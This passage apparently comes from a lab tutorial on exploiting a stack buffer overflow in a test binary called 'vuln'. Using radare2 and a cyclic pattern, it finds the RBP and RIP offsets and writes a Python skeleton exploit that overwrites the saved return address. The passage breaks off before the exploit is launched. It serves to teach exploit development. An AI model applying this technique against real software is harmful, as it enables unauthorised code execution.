 OR 

pattern_create.py 900 > payload
```

Then radare2 will be run like:

```
r2 -e dbg.profile=./script.rr2 -dA vuln
```

So knowing that, we proceed and run the program while debugging it:

The stack looks like this:

![Stack](https://miro.medium.com/max/966/1*jo-61Wu9G11Xht7l7PGPJg.png)

```
[0x5555555546c6]> dr 
rax = 0x00000265
rbx = 0x00000000
rcx = 0x00000000
rdx = 0x00000000
r8 = 0x00000000
r9 = 0x00000258
r10 = 0x5555557574d1
r11 = 0x00000246
r12 = 0x555555554580
r13 = 0x7fffffffe0e0
r14 = 0x00000000
r15 = 0x00000000
rsi = 0x555555757270
rdi = 0x00000001
rsp = 0x7fffffffdfe8
rbp = 0x3168413068413967
rip = 0x5555555546c6
rflags = 0x00010202
orax = 0xffffffffffffffff
[0x5555555546c6]> 

[0x5555555546c6]> pxw @ rsp
0x7fffffffdfe8  0x41326841 0x68413368 0x35684134 0x41366841  Ah2Ah3Ah4Ah5Ah6A
0x7fffffffdff8  0x68413768 0x39684138 0x41306941 0x69413169  h7Ah8Ah9Ai0Ai1Ai
0x7fffffffe008  0x33694132 0x41346941 0x69413569 0x37694136  2Ai3Ai4Ai5Ai6Ai7
```
So we see that we correctly overflow the stack and we have control over RBP. 

```
lab@lab-VirtualBox:~$ python3 exploit-pattern/pattern.py 0x3168413068413967
Pattern 0x3168413068413967 first occurrence at position 208 in pattern.
lab@lab-VirtualBox:~$ python3 exploit-pattern/pattern.py 0x41326841
Pattern 0x41326841 first occurrence at position 216 in pattern.
lab@lab-VirtualBox:~$ 
```
So as we know we can control the stack / rbp and at which positions, we can start drawing a skeleton for our exploit:
```
import sys
import struct
buf = b"A"* 208
buf += b"BBBBBBBB" #RBP overwrite
buf += struct.pack('<Q',0x7fffffffdfe8) #RIP overwrite
sys.stdout.buffer.write(buf)
```
And again use rarun to launch it:
```